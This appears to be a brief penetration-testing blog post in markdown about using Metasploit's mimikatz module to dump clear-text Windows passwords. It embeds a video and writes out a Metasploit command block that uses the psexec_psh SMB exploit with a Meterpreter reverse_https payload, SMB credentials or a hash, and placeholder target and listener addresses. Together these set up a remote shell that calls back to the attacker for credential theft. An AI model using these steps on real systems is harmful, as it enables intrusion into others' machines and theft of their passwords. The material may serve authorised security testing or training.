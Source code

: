 ```yaml
---
layout: post
title: "Mimikatz"
subtitle: "Dumping clear text passwords."
date: YYYY-MM-DD HH:MM:SS
background: '/PATH_TO_IMAGE'
---
```


# Mikatz - Dumping clear text passwords

## This video will show you how to dump clear text passwords using the mimikatz post module within Metasploit.


<video width="720" height="405" autoplay controls  poster="">
	<source src="http://s1.webmshare.com/Vz1aj.webm" type="video/webm">
	Your browser does not support the video tag or the file format of this video. <a href="http://www.webestools.com/">http://www.webestools.com/</a>
</video>

```
use exploit/windows/smb/psexec_psh
set payload windows/meterpreter/reverse_https
set smbuser <username>
set smbpass <password/hash>
set smbdomain <domain>
set RHOST <remote-ip>
set LHOST <local-machine>
```
